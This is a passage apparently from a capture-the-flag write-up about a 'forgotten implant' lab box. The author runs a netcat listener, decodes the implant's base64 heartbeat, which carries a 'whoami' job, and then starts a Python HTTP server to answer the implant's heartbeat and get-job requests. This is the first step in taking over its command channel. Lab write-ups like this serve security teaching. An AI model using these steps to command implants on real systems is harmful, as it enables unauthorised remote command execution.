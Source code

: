 ```console
──(user㉿kali-linux-2022-2)-[~]
└─$ nc -lvp 81
listening on [any] 81 ...
10.10.115.84: inverse host lookup failed: Unknown host
connect to [10.61.1] from (UNKNOWN) [10.10.115.84] 43784
GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjE6MTI6MDIuMDg5NDc3IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1
Host: 10.61.1:81
User-Agent: python-requests/2.22.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

We're receiving an HTTP GET call to a `heartbeat` endpoint and a long filename that looks like base 64. Decoding it we find a status message as below. 

```json
{
  "time": "2023-08-02T21:12:02.089477",
  "systeminfo": {
    "os": "Linux",
    "hostname": "forgottenimplant"
  },
  "latest_job": {
    "job_id": 0,
    "cmd": "whoami"
  },
  "success": false
}
```
{: .nolineno }

Let's start an HTTP server so that we can respond to the GET. 

```bash
┌──(user㉿kali-linux-2022-2)-[~]
└─$ python -m http.server 81
Serving HTTP on 0.0.0.0 port 81 (http://0.0.0.0:81/) ...
10.10.115.84 - - [02/Aug/2023 17:16:02] code 404, message File not found
10.10.115.84 - - [02/Aug/2023 17:16:02] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjE6MTY6MDEuNzk2NjQ5IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1" 404 -
10.10.115.84 - - [02/Aug/2023 17:16:03] code 404, message File not found
10.10.115.84 - - [02/Aug/2023 17:16:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 404 -
10.10.115.84 - - [02/Aug/2023 17:17:01] code 404, message File not found
10.10.115.84 - - [02/Aug/2023 17:17:01] "GET /heartbeat/eyJ0aW1lIjogIjIwMjMtMDgtMDJUMjE6MTc6MDEuNjUwODk3IiwgInN5c3RlbWluZm8iOiB7Im9zIjogIkxpbnV4IiwgImhvc3RuYW1lIjogImZvcmdvdHRlbmltcGxhbnQifSwgImxhdGVzdF9qb2IiOiB7ImpvYl9pZCI6IDAsICJjbWQiOiAid2hvYW1pIn0sICJzdWNjZXNzIjogZmFsc2V9 HTTP/1.1" 404 -                                            
10.10.115.84 - - [02/Aug/2023 17:17:03] code 404, message File not found                                        
10.10.115.84 - - [02/Aug/2023 17:17:03] "GET /get-job/ImxhdGVzdCI= HTTP/1.1" 404 -
```
{: .nolineno }
